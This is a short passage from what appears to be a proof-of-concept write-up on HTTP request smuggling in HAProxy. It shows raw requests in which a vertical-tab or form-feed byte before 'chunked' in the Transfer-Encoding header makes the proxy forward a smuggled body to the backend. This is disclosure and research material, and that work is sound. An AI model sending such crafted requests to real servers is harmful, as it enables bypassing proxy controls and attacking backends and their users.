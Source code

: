 Let's explore important sections of the PoC
This is how HAProxy handles a request when `Transfer-Encoding` and `Content-Length` is provided together:

--------------------------------------------------------------------------------------------------

**Request to HAProxy:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

**Request forwarded to backend:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Transfer-Encoding: chunked
X-Forwarded-For: 172.21.0.1

0
```

The request that HAProxy sends to the backend, has correctly prioritized Transfer-Encoding, and has stripped out the content length and cut off the "X" from the request, which went outside the boundary of the Transfer-Encoding request.

However, in the next request, we have a `\x0b` (vertical tab) before the "chunked" string (note: `\x0c` aka form feed also works).

**Request to HAProxy:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:[\x0b]chunked

0

X
```

**Request forwarded to backend:**

```http
POST / HTTP/1.1
Host: 127.0.0.1:1080
Content-Length: 6
Transfer-Encoding:
                  chunked
X-Forwarded-For: 172.21.0.1

0

X
```
